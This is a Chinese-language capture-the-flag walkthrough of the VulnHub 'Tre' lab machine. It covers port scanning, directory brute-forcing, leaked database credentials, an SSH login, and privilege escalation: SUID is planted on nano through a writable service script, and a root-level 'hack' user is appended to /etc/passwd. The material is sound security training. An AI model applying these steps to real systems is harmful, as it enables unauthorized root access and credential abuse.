









# TRE: 1

> https://download.vulnhub.com/tre/Tre.zip

靶场IP：`192.168.2.132`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.132                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-04 05:54 EDT
Nmap scan report for 192.168.2.132
Host is up (0.00080s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
8082/tcp open  http    nginx 1.14.2
MAC Address: 00:0C:29:DD:27:3B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.66 seconds

```

访问80端口



访问8082端口，也是相同页面


爆破web目录

```
┌──(root💀kali)-[~]
└─# dirb http://192.168.2.132  /usr/share/wordlists/dirb/big.txt
```

找到一个config目录



发现MySQL密码

```
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```



找到一个路径：`/adminer.php`

```
┌──(root💀kali)-[~]
└─# gobuster dir --url  http://192.168.2.132/  -w /usr/share/wordlists/dirb/big.txt -x .php
```





使用 MySQL 数据库登录后，我们寻找任何有用的信息，我们发现该表中有一个 `mantis_user_table`，其中包含用户名和密码。



使用tre账号连接SSH。



使用linEnum找到`check-system`文件

```
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done

```

> 使用`pspy64`监控运行文件
>
> 

由于上述文件作为用户具有读写权限，因此使用 nano 编辑器编辑了该文件。并赋予 nano 文件的 SUID 权限，但 `/usr/bin/check-system` 将在系统重新启动时更新更改。

```
chmod +s /usr/bin/nano
```



这里 -r 标志用于重新启动主机系统。再次检查 nano 文件系统的权限，并注意现在启用了 SUID 权限

```
sudo shutdown -r now
```

```
tre@tre:~$ ls -al /usr/bin/nano
-rwsr-sr-x 1 root root 246160 Jun 11  2019 /usr/bin/nano
tre@tre:~$ 
```

现在我可以尝试修改 passwd 文件以进行权限提升

```
tre@tre:~$ openssl passwd -1 -salt user3 pass123
$1$user3$rAGRVf5p2jYTqtqOW5cPu/
```

```
tre@tre:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tre:x:1000:1000:tre,,,:/home/tre:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
hack:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0::/root:/bin/bash

```

```
su hack
```

